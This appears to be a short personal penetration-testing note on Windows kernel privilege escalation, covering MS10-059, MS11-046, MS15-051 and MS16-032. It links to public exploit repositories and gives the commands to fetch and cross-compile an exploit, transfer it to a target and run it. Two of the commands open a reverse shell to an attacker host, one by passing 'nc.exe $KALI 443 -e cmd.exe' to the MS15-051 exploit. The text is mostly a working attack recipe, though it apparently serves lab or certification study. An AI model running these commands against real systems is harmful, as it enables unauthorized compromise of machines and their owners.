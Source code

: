 ```yaml
---
category: Uncategorized
tags: []
---
```


![[0.__PrivEsc Tools (WINDOWS)#windows-exploit-suggester py]]

[[99.__Links (WINDOWS)#Escalation Path Kernel Exploits]]

![[Pasted image 20221110100719.png]]


#### Chimi Churraskito MS10-059

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

![[4._File Transfers#Certutil]]

```bash - kail
MS10-059.exe $KALI 443
```

#### MS11-046

```bash - kali
searchsploit -m 40564
```

```bash - kali
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Transfer to Target.

[[4._File Transfers#Certutil]]

Now just run it.
```command prompt - target
MS11-046.exe
```

#### MS15-051

MS15-051 exploit
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

Download zip folder and extract.

Transfer over exe and nc.exe to target

![[4._File Transfers#Certutil]]

[[rlwrap]]

```command prompt - target
ms15-051x64.exe "nc.exe $KALI 443 -e cmd.exe"
```


#### MS16-032

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032

Transfer exe over to target

[[4._File Transfers#Certutil]]

```powershell - target
.\ms-16-032.exe
```

